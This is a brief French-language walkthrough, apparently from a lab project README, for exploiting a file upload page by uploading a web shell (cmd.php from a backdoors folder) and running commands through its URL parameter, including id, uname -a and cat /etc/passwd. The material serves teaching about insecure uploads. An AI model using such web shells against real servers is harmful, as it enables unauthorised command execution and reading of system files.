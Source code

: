 Aller sur : http://votre_ip:8080/upload.php  

Uploader cmd.php depuis le dossier backdoors/  

Aller sur : http://votre_ip:8080/uploads/cmd.php?cmd=id  

Tester d'autres commandes :  

* ls  
* cat /etc/passwd  
* uname -a  
